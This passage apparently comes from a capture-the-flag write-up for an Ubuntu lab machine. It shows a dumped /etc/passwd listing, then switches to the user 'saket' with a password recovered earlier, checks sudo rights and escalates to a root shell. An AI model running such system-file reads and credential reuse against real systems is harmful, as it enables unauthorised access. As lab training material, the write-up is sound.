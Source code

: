 ```shell
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:115::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:109:116:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:110:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:111:117:RealtimeKit,,,:/proc:/usr/sbin/nologin
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
cups-pk-helper:x:113:120:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false
avahi:x:115:121:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
saned:x:117:123::/var/lib/saned:/usr/sbin/nologin
nm-openvpn:x:118:124:NetworkManager OpenVPN,,,:/var/lib/openvpn/chroot:/usr/sbin/nologin
hplip:x:119:7:HPLIP system user,,,:/run/hplip:/bin/false
whoopsie:x:120:125::/nonexistent:/bin/false
colord:x:121:126:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:122:127::/var/lib/geoclue:/usr/sbin/nologin
pulse:x:123:128:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gnome-initial-setup:x:124:65534::/run/gnome-initial-setup/:/bin/false
gdm:x:125:130:Gnome Display Manager:/var/lib/gdm3:/bin/false
saket:x:1000:1000:Ubuntu_CTF,,,:/home/saket:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:126:133:MySQL Server,,,:/nonexistent:/bin/false
```

Well, we found the user `saket` which we has seen it in `users` table. Try to switch to it with password `Saket@#$1337` and su to root:

```shell
saket@ubuntu:/$ id
id
uid=1000(saket) gid=1000(saket) groups=1000(saket),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare)
saket@ubuntu:/$ sudo -l
sudo -l
[sudo] password for saket: Saket@#$1337

Matching Defaults entries for saket on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User saket may run the following commands on ubuntu:
    (ALL : ALL) ALL
saket@ubuntu:/$ sudo su
sudo su
root@ubuntu:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/# ls /root
ls /root
app.apk  Documents  Music     Public  Templates
Desktop  Downloads  Pictures  snap    Videos
```
